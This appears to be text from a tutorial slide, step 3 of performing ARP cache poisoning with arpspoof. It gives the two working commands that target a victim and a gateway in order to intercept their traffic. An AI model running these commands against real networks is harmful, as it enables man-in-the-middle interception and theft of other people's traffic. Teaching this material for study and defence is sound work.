

# Steps to Perform ARP Cache Poisoning Using Arpspoof
Step 3: Start Arpspoof
Open a terminal and execute the following command to poison the ARP cache of the victim:
arpspoof -i eth0 -t [Victim IP] [Gateway IP]
In another terminal, execute the following command to poison the ARP cache of the gateway:
arpspoof -i eth0 -t [Gateway IP] [Victim IP]